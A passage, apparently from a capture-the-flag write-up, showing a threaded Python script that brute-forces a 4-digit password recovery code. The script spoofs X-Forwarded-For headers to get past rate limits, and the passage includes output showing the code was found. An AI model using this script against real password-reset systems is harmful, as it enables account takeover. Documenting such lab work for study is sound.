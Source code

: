```python
    recovery_code = f"{code:04}"  # Format as 4-digit number (e.g., 0001, 0023)
    data = {
        "recovery_code": recovery_code,
        "s": "180"  # Fixed value for 's' parameter
    }

    # Add a random X-Forwarded-For header
    headers = base_headers.copy()
    headers["X-Forwarded-For"] = random_ip()

    # Send POST request
    response = requests.post(url, headers=headers, data=data)

    # Check response content
    if "Invalid or expired recovery code!" not in response.text:
        print(f"[+] Recovery code found: {recovery_code}")
        print("[+] Response from server:", response.text)
        return recovery_code  # Return the successful code

    return None

# Main function to manage the brute-force attack
def main():
    # Number of threads to use
    num_threads = 50

    # Create a thread pool
    with ThreadPoolExecutor(max_workers=num_threads) as executor:
        # Submit tasks for all 4-digit codes
        future_to_code = {executor.submit(try_code, code): code for code in range(10000)}

        # Process results as they are completed
        for future in future_to_code:
            result = future.result()
            if result is not None:
                print(f"[+] Code successfully brute-forced: {result}")
                executor.shutdown(wait=False)  # Stop all threads
                return

    print("[-] Brute-force attempt completed without success.")

if __name__ == "__main__":
    main()
```

We launch this script and obtain our recovery code :

```shell
$ python3 brutecode.py
[+] Recovery code found: 3765
[+] Response from server:
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Reset Password</title>
     <link href="/hmr_css/bootstrap.min.css" rel="stylesheet">
    <script src="/hrm_js/jquery-3.6.0.min.js"></script>
            <script>
        let countdownv = 180;
        function startCountdown() {

            let timerElement = document.getElementById("countdown");
```